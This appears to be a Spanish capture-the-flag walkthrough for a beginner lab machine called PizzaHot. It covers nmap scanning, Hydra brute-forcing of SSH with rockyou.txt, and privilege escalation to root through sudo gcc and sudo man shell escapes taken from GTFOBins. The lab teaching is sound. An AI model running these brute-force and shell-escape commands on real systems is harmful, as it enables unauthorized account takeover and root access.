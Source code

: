 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# PizzaHot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.41
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (6).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.41
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (6).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.41
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de pizzas.

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos el nombre de un usuario llamado **pizzapiña**.

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.41 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.41**

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **pizzapiña**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh pizzapiña@192.168.1.41
```

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **gcc** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/gcc/)para ver como podemos escalar privilegios.

```bash
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

Realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). &#x20;

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

Ya estamos dentro del usuario **pizzasinpiña** por lo que realizamos otra vez el comando:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **man** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)para ver como podemos escalar privilegios.

```bash
sudo man man
```

Presionamos la tecla **ESC** para salir del modo de inserción en VIM y, a continuación, ejecutamos el siguiente comando para obtener una shell con privilegios elevados:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
